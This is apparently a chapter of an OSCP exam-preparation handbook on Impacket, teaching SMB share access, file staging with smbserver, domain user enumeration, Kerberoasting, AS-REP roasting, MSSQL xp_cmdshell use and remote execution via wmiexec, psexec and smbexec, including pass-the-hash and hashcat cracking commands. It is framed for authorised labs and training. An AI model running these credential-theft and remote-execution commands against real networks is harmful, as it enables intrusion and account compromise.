# Impacket Practical Handbook { #impacket }

**Updated / 최종 수정:** 2026-11-05

!!! abstract "What mastering Impacket means"
    Pick the correct protocol and identity, understand the rights it requires, read the result, then choose the next step. A successful login is not administrative access. An NT hash is not a NetNTLM challenge-response. A ticket is not a password.

This is the working companion to [Active Directory](active-directory.md) and the [practical guide](practical-guide.md). The sequence is **shares → users/SPNs → credential material → authenticated access → host secrets or replication only when the required rights exist**.

!!! note "Screens and verification"
    Images render **real captured command output** from Impacket 0.13.1 in a Linux container, using its upstream `.py` executable names. Help panels show actual `-h` output, sometimes cropped to relevant lines; they do not show a successful AD attack. Only the loopback SMB lab was executed against a service. Windows/AD commands below are documented lab procedures, not claimed exam results. See [reproduce the captures](labs/tool-practice.md).

!!! warning "Before an exam"
    Use these procedures in your own or authorised labs. Recheck the [official Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide) and [tool restrictions](exam-format.md#restricted). Impacket is not a blanket approval for every script or feature; this chapter omits relay, poisoning and automatic attack chains. Study this before the exam; AI assistance is prohibited during the exam.

## 1. Install once; verify executable names { #setup }

On Kali, use its package manager. Upstream pipx installations commonly expose `GetUserSPNs.py`, while Kali exposes `impacket-GetUserSPNs`. Capitalisation matters. Do not mix a development checkout with distribution libraries during timed practice.

```bash
sudo apt update
sudo apt install impacket-scripts python3-impacket
command -v impacket-GetUserSPNs impacket-secretsdump
impacket-GetUserSPNs -h
python3 -c 'from importlib.metadata import version; print(version("impacket"))'
# Alternative isolated upstream installation, not alongside a broken system install:
# pipx install 'impacket==0.13.1'
# GetUserSPNs.py -h
```

Record the version in your notes. The examples below use Kali names; replace the prefix with the corresponding `.py` script if using pipx. A `ModuleNotFoundError` is an installation/interpreter problem, not a target vulnerability.

## 2. Identity grammar and authentication choices { #identity }

Use this **fictional lab** consistently. Replace addresses with your assigned lab hosts. Commands without a password prompt for it. This avoids delimiters such as `@`, `:` or shell-special characters being misparsed in a password embedded in a target string.

```bash
export LAB_DOMAIN=training.test
export LAB_DC=10.10.20.10
export LAB_DC_FQDN=dc01.training.test
export LAB_HOST=10.10.20.21
export LAB_HOST_FQDN=ms01.training.test
export LAB_USER=learner
mkdir -p ~/oscp-lab/{notes,loot,screens}
cd ~/oscp-lab
getent hosts "$LAB_DC_FQDN" "$LAB_HOST_FQDN"
# Normal identity: DOMAIN/user@target  (password will be requested)
impacket-smbclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST"
# A discovered NT hash, NOT a NetNTLMv2 response:
# impacket-wmiexec -hashes ":$LAB_NT" "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Existing Kerberos ccache, target must match the service hostname:
# KRB5CCNAME="$PWD/learner.ccache" impacket-smbclient -k -no-pass #   -dc-ip "$LAB_DC" "$LAB_DOMAIN/$LAB_USER@$LAB_HOST_FQDN"
```

| Material | Meaning / correct use |
|---|---|
| Password | `DOMAIN/user@host`, then enter the password; SQL authentication may omit domain |
| NT hash | `-hashes LMHASH:NTHASH`; use `:NTHASH` when no LM hash is needed; 32 hex characters for NT |
| NetNTLMv2 response | Captured challenge-response, crack with the appropriate format; **not** accepted directly as `-hashes` |
| TGT / service ticket | `.ccache` selected through `KRB5CCNAME`; `-k -no-pass` requests Kerberos without a password prompt |
| `-dc-ip` | The DC/KDC address; it does not redirect every service connection to the DC |
| `-target-ip` | Where the tool connects while retaining a hostname for authentication, where supported |

Local account example: `MS01/Administrator@10.10.20.21`. Domain account example: `training.test/Administrator@10.10.20.21`. These may be different accounts with different passwords. Check route, DNS and clock before debugging Kerberos.

## 3. Choose the tool { #tool-map }

| Situation | Tool | Prerequisite / output |
|---|---|---|
| Read shares / move files | `smbclient`, `smbserver` | Share permissions / directory listing or transferred file |
| Enumerate domain users | `GetADUsers`, `lookupsid` | LDAP or permitted SAM/LSA RPC access / account names |
| Discover SPNs and request roast material | `GetUserSPNs` | Valid domain authentication, KDC reachability / TGS hash |
| Request AS-REP for a known account | `GetNPUsers` | Account with pre-authentication disabled / AS-REP hash |
| Query MSSQL; inspect SQL rights | `mssqlclient` | SQL login or Windows login accepted by SQL Server |
| Execute as a privileged account | `wmiexec`, `psexec`, `smbexec` | Appropriate remote administration rights, ports and shares |
| Parse SAM; retrieve host secrets; DCSync | `secretsdump` | Different privileges for each mode; see section 11 |
| Obtain/use Kerberos tickets | `getTGT`, `getST`, `ticketConverter` | Valid key/password/ticket; delegation rights if impersonating |

No row is a universal bypass. If the required right is absent, find a different path.

## 4. smbclient — read before executing { #smbclient }

**Use when:** port 445 is reachable and you have credentials or a permitted anonymous session. It is a file/share client, not a Windows command shell. Check useful shares before attempting administrative execution.

```bash
impacket-smbclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST"
# Inside the SMB mini-shell:
# shares
# use IT
# ls
# cd Backups
# get app.config
# exit
```

**Read:** a listed share is not proof of read permission. `use` plus `ls` establishes actual access. `get` writes to your local working directory. Inspect an authorised lab config for usernames, connection strings and service names, then validate the credential on its intended service. `STATUS_ACCESS_DENIED` on `C$` is compatible with a valid low-privilege login. A flag read with SMB `cat` is **not exam proof**; obtain an interactive target shell.

{ loading=lazy }

{ loading=lazy }

## 5. smbserver — controlled file transfer { #smbserver }

**Use when:** the Windows lab host must fetch a tool from your attacker VM. Serve a dedicated staging directory, not your whole home folder. Standard Windows UNC paths use port 445, so the normal transfer server needs permission to bind that port.

```bash
mkdir -p ~/oscp-lab/stage
# Copy only the intended lab file into stage first.
sudo impacket-smbserver STAGE ~/oscp-lab/stage -smb2support   -username labshare -password 'LabOnly-123!'
# On the Windows target, replace 10.10.14.5 with your reachable Kali address:
# net use \\10.10.14.5\STAGE /user:labshare LabOnly-123!
# copy \\10.10.14.5\STAGE\tool.exe C:\Windows\Temp\tool.exe
# net use \\10.10.14.5\STAGE /delete
```

`STAGE` is the share name; the next argument is the local directory. `-smb2support` enables SMB2. Authentication in the server log proves a connection, not that the copy completed: compare file size and SHA-256 on both ends. Modern Windows may refuse guest SMB; an explicit lab account avoids relying on guest policy. For a no-admin localhost drill, use the Impacket API mini-shell on port 1445 in the [local lab](labs/tool-practice.md#smb). In 0.13.1, the `smbclient` CLI accepts only 139/445; `-port 1445` is rejected. Native UNC copy cannot simply append `:1445`. Stop the server when finished.

{ loading=lazy }

## 6. GetADUsers and lookupsid — discover identities { #enumeration }

**Use when:** you need account names and domain context. `GetADUsers` queries LDAP with an authenticated domain account. `lookupsid` performs SID/RID lookups through RPC over SMB; access may be denied by policy. Enumerating names is not password spraying.

```bash
impacket-GetADUsers "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC" -all
impacket-lookupsid "$LAB_DOMAIN/$LAB_USER@$LAB_DC" 2000
```

`-all` widens the LDAP account listing; `2000` is the lookup upper RID bound, not a port. Record the domain SID, `SidTypeUser` names and account status if available. Do not treat every returned group/computer as a human login. Next: choose a known account or SPN to investigate; avoid repeatedly testing guessed passwords.

{ loading=lazy }

{ loading=lazy }

## 7. GetUserSPNs — enumerate first, request second { #kerberoast }

**Prerequisites:** a valid domain account, name resolution, LDAP/KDC reachability and a service account with an SPN. An SPN is a service name such as `MSSQLSvc/ms01.training.test:1433`. Its existence does not guarantee a weak password.

```bash
# List SPNs and account names first:
impacket-GetUserSPNs "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"
# Then request TGS material for a known lab service account:
impacket-GetUserSPNs "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"   -request-user svc_sql -outputfile loot/kerberoast.txt
# Only if output starts with $krb5tgs$23$ (RC4):
# hashcat -m 13100 loot/kerberoast.txt /usr/share/wordlists/rockyou.txt
```

**Read:** SPN → account mapping, then the hash prefix and encryption type. `-request-user` narrows the request; `-outputfile` saves crackable material, not a plaintext password. `$krb5tgs$18$` needs a different hashcat mode (19700), not 13100. Use a short, relevant wordlist first, then validate any recovered password against the named account. Empty output can mean no eligible SPNs, wrong domain, LDAP failure or unsupported encryption; it does not prove there is no AD path.

{ loading=lazy }

## 8. GetNPUsers — the pre-authentication exception { #asrep }

**Prerequisites:** a known username whose account does not require Kerberos pre-authentication. No password is needed for that specific request; most normal accounts will not be eligible. A username list must be one username per line, not a dump of formatted tool output.

```bash
impacket-GetNPUsers "$LAB_DOMAIN/svc_legacy" -dc-ip "$LAB_DC"   -no-pass -format hashcat -outputfile loot/asrep.txt
# For a small known lab-user list:
# impacket-GetNPUsers "$LAB_DOMAIN/" -dc-ip "$LAB_DC" #   -usersfile notes/users.txt -no-pass -format hashcat -outputfile loot/asrep.txt
# For $krb5asrep$23$ output:
# hashcat -m 18200 loot/asrep.txt /usr/share/wordlists/rockyou.txt
```

`UF_DONT_REQUIRE_PREAUTH` absent means this path does not apply to that account. `KDC_ERR_C_PRINCIPAL_UNKNOWN` means the KDC did not find the principal in that realm. Do not turn either result into a large password-guessing loop. Compare this with Kerberoasting: AS-REP targets user pre-auth settings; TGS roasting targets SPN service accounts.

{ loading=lazy }

## 9. mssqlclient — SQL rights before OS execution { #mssql }

**Use when:** TCP 1433 or another discovered MSSQL port is reachable. Windows authentication (`-windows-auth`) and SQL authentication are different. A domain password that works on SMB does not automatically have a SQL login.

```bash
impacket-mssqlclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST" -windows-auth
# SQL-native account instead:
# impacket-mssqlclient "sql_reader@$LAB_HOST" -port 1433
# In the SQL shell:
# SELECT SYSTEM_USER, ORIGINAL_LOGIN(), DB_NAME();
# SELECT IS_SRVROLEMEMBER('sysadmin');
# SELECT name FROM sys.databases;
# help
# Only in a lab where your SQL role permits configuration changes:
# enable_xp_cmdshell
# xp_cmdshell whoami
# disable_xp_cmdshell
```

`IS_SRVROLEMEMBER` returns 1 for membership, 0 for non-membership, and can return NULL when the principal/role cannot be resolved. SQL `sysadmin` and Windows local Administrator are different. `xp_cmdshell` runs under the SQL service account or a configured proxy, so check `whoami`; it is not automatically SYSTEM. Record the original configuration and restore it if you changed it. If permissions are absent, inspect allowed databases, configuration and impersonation rights rather than repeatedly enabling a denied feature.

{ loading=lazy }

## 10. wmiexec, psexec and smbexec — choose by prerequisites { #execution }

All three normally require administrative remote access. They do not escalate a standard domain user merely because the password is valid. Preserve which identity you used and what changed on the host.

```bash
# Password is requested; use an account already confirmed to have the needed rights.
impacket-wmiexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Alternatives when their prerequisites are met:
# impacket-psexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# impacket-smbexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Hash authentication (set LAB_NT to a discovered 32-hex NT hash first):
# impacket-wmiexec -hashes ":$LAB_NT" "$LAB_DOMAIN/adminuser@$LAB_HOST"
# At the remote command prompt, separately:
# whoami
# hostname
# ipconfig
```

| Tool | Mechanism / network needs | Common failure and next check |
|---|---|---|
| `wmiexec` | WMI/DCOM, RPC 135 + dynamic RPC; default output retrieval uses SMB 445 and an admin share | RPC timeout → route/firewall; output/share denial → rights and SMB access |
| `psexec` | SMB upload to a writable share and service creation through SCM | No writable share or service denied → admin rights, share policy, endpoint controls |
| `smbexec` | Service-based command execution; output behaviour depends on mode | SCM denied → privileges; output unavailable → SMB path and chosen mode |

The `wmiexec` and `smbexec` prompts are semi-interactive: each command may run in a fresh process. Do not assume `set`, `cd` or an interactive program behaves like a persistent terminal. Use full paths and verify context. `psexec` normally creates a service and commonly obtains SYSTEM, but verify `whoami` rather than assuming it. After use, inspect tool cleanup messages; do not delete arbitrary services.

For exam proof, read the flag **in an interactive shell on the target** with `type`/`cat`, from its original location, with the IP visible. Do not substitute a downloaded flag or a one-shot output file. See [proof requirements](exam-format.md#flag-rules).

{ loading=lazy }

{ loading=lazy }

